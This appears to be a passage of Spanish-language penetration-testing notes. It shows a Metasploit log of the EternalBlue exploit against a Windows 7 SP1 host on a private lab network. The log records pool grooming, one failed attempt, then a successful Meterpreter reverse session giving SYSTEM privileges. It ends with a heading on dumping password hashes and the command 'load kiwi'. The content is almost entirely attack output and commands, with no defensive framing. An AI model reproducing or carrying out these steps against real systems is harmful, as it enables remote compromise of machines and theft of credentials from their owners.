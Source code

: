```
[*] 192.168.5.141:445 - Sending all but last fragment of exploit packet
[*] 192.168.5.141:445 - Starting non-paged pool grooming
[+] 192.168.5.141:445 - Sending SMBv2 buffers
[+] 192.168.5.141:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.5.141:445 - Sending final SMBv2 buffers.
[*] 192.168.5.141:445 - Sending last fragment of exploit packet!
[*] 192.168.5.141:445 - Receiving response from exploit packet
[+] 192.168.5.141:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.5.141:445 - Sending egg to corrupted connection.
[*] 192.168.5.141:445 - Triggering free of corrupted buffer.
[-] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.5.141:445 - Connecting to target for exploitation.
[+] 192.168.5.141:445 - Connection established for exploitation.
[+] 192.168.5.141:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.5.141:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.5.141:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.5.141:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.5.141:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.5.141:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.5.141:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.5.141:445 - Sending all but last fragment of exploit packet
[*] 192.168.5.141:445 - Starting non-paged pool grooming
[+] 192.168.5.141:445 - Sending SMBv2 buffers
[+] 192.168.5.141:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.5.141:445 - Sending final SMBv2 buffers.
[*] 192.168.5.141:445 - Sending last fragment of exploit packet!
[*] 192.168.5.141:445 - Receiving response from exploit packet
[+] 192.168.5.141:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.5.141:445 - Sending egg to corrupted connection.
[*] 192.168.5.141:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 192.168.5.141
[*] Meterpreter session 1 opened (192.168.5.199:4444 -> 192.168.5.141:49460) at 2024-07-30 14:51:43 +0200
[+] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.5.141:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## <mark style="color:purple;">Cargar kiwi y dumpeo de hashes (Teniendo una shell)</mark>

```shell
load kiwi
```

